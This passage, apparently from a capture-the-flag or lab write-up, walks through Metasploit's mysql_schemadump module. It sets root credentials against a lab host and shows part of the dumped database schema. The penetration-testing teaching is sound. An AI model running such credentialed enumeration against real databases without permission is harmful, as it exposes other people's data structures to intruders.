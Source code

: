 ```commandline
Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD                          no        The password for the specified username
   RHOSTS                            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)
   USERNAME                          no        The username to authenticate as

msf6 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set RHOST 10.10.188.228
RHOST => 10.10.188.228
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
USERNAME => root
```

So we should end up with:

```commandline
msf6 auxiliary(scanner/mysql/mysql_schemadump) > options

Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD         password         no        The password for the specified username
   RHOSTS           10.10.188.228    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)
   USERNAME         root             no        The username to authenticate as
```

Now we can `run` the `exploit` (with the `run` or `exploit` command and this will dump the tables and column names of the whole database. This can be a long output so I have stripped out a lot of data here to just show some example I show the last 3 tables with their column information:

```commandline
  - TableName: x$waits_by_host_by_latency
    Columns:
    - ColumnName: host
      ColumnType: varchar(60)
    - ColumnName: event
      ColumnType: varchar(128)
    - ColumnName: total
      ColumnType: bigint(20) unsigned
    - ColumnName: total_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: avg_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: max_latency
      ColumnType: bigint(20) unsigned
  - TableName: x$waits_by_user_by_latency
    Columns:
    - ColumnName: user
      ColumnType: varchar(32)
    - ColumnName: event
      ColumnType: varchar(128)
    - ColumnName: total
      ColumnType: bigint(20) unsigned
```